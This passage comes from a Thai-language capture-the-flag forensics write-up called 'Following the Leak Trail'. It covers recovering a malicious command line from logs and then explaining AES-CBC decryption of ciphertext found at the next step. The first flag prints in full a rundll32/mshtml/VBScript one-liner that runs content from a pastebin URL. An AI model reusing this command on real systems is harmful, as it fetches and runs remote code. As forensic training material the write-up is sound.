 แล้วเราก็จะพบกับ command line นี้ในท้ายที่สุด ซึ่งเป็น command ที่ใช้ `rundll32` อะไรก็ตามที่มาจาก pastebin url ด้วย vbscript และ HTA ซึ่งนี่ก็เป็น flag ของข้อแรกนั่นเอง

```
forensic{rundll32 vbscript:"\\..\\mshtml\\..\\LoL\\..\\mshtml,RunHTMLApplication "+String(CreateObject("Wscript.Shell").Run("https://pastebin.com/raw/nhWeTtJH"),0)}
```
***
### Following the Leak Trail #2
What is the file name?

Format flag: forensic{filename}
Eg. forensic{sample.exe}
***
![1836bc15094af2bf0075b08d35f0e0aa.png](../_resources/1836bc15094af2bf0075b08d35f0e0aa.png)
ข้อนี้ยังให้ log เดิมมา เราก็มาสานต่อจาก url จากข้อที่แล้ว โดยการเข้าไปที่ url เราก็จะพบ ciphertext พร้อมด้วย Key และ IV ซึ่ง algorithm แรกที่ต้องเข้ามาในหัวเลยเมื่อพูดถึง Key และ IV นั่นก็คือ AES หรือ Advanced Encryption Standard ซึ่งเป็น symmetric key cryptography algorithm ที่มีถึง [5 โหมด](https://www.highgo.ca/2019/08/08/the-difference-in-five-modes-in-the-aes-encryption-algorithm/) และยังถูกใช้เป็นมาตรฐานในระดับโลก ซึ่งโหมดของ AES ที่พบได้บ่อยในการแข่งขัน CTF จะเป็น CBC mode หรือ Cipher Block Chaining ที่จะเป็นการนำ Initialization Vector (IV) มาทำการ XOR กับ plaintext ก่อนจะนำไปเข้ารหัสด้วย Key นั่นเอง

![5ea3a60760ce904c4d61441aa6178995.png](../_resources/5ea3a60760ce904c4d61441aa6178995.png)
